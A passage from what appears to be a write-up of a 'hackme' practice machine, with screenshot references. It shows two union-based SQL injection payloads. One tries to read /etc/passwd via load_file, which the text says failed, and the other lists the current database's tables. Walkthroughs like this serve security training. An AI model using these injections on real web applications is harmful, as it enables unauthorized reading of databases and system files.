 ![](/assets/images/hackme/screenshot-11.png)

When trying to read the **/etc/passwd** file, it was not possible.

```bash
' and 1=2 union select load_file('/etc/passwd'),2,3 #
```

![](/assets/images/hackme/screenshot-12.png)

Retrieving the tables from the database that the web application is using.

```bash
' and 1=2 union select table_name,2,3 from information_schema.tables where table_schema=database() #
```
